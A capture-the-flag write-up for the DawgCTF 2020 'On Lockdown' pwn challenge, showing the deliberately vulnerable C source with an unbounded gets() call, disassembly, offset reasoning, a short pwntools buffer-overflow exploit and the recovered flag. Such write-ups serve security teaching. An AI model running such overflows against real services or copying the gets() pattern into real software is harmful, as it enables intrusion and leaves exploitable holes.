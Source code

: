 # DawgCTF 2020

## On Lockdown

> 50
>
> Better than locked up I guess
>
> `nc ctf.umbccd.io 4500`
> 
> Author: trashcanna
> 
> [onlockdown](onlockdown) [onlockdown.c](onlockdown.c)

Tags: _pwn_


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Most mitigations in place, however can smash stack, ROP, buffer overflow, but no GOT.


#### Source Included!

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void flag_me(){
    system("cat flag.txt");
}

void lockdown(){
    int lock = 0;
    char buf[64];
    printf("I made this really cool flag but Governor Hogan put it on lockdown\n");
    printf("Can you convince him to give it to you?\n");
    gets(buf);
    if(lock == 0xdeadbabe){
        flag_me();
    }else{
        printf("I am no longer asking. Give me the flag!\n");
    }
}

int main(){
    lockdown();
    return 0;
}
```

Just need to set `lock` to `0xdeadbabe`.

But wait, from Ghidra:

```
void lockdown(void)

{
  char local_50 [64];
  int local_10;
  
  local_10 = 0;
  puts("I made this really cool flag but Governor Hogan put it on lockdown");
  puts("Can you convince him to give it to you?");
  gets(local_50);
  if (local_10 == 0) {
    puts("I am no longer asking. Give me the flag!");
  }
  else {
    flag_me();
  }
  return;
}
```

And `objdump`:

```
    1230:	83 7d f4 00          	cmp    DWORD PTR [ebp-0xc],0x0
    1234:	74 07                	je     123d <lockdown+0x59>
    1236:	e8 7e ff ff ff       	call   11b9 <flag_me>
    123b:	eb 12                	jmp    124f <lockdown+0x6b>
```

`lock` just has to be non-zero!  You can accidentally solve this by blasting a lot of anything.

There is clearly a buffer overflow: `gets(local_50)`.  `local_50` is 76 bytes above EBP: 

```
00011224 8d 45 b4        LEA        EAX=>local_50,[EBP + -0x4c]
```

`local_10` is 12 (`[ebp-0xc]`) bytes above EBP, so sending 64 (76-12) bytes + 4 bytes will set `local_10`.


### Exploit

```
from pwn import *

p = process('./onlockdown')
#p = remote('ctf.umbccd.io', 4500)

p.recvuntil('you?\n')

payload  = 64 * b'A'
payload += 4 * b'A'

p.sendline(payload)
p.stream()
```

#### Output

```
[+] Opening connection to ctf.umbccd.io on port 4500: Done
DawgCTF{s3ri0u$ly_st@y_h0m3}
```

#### Flag

```
DawgCTF{s3ri0u$ly_st@y_h0m3}
```
